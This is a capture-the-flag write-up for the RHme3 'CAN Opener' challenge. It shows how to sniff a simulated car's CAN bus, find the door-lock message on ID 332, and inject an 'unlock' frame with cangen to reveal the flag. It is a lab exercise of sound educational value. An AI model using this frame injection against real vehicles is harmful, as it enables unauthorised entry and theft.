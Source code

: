 # [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, prepare your boards for working with CAN using these guides:
* [RHme3 board analysis and preparation](../Preparation/RHme3_board_analysis.md)
* [Beaglebone Black CAN setup](../Preparation/BBB_CAN_setup.md)

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

![CAN Opener Dashboard with FLAG](../Images/can_opener_dashboard.png)
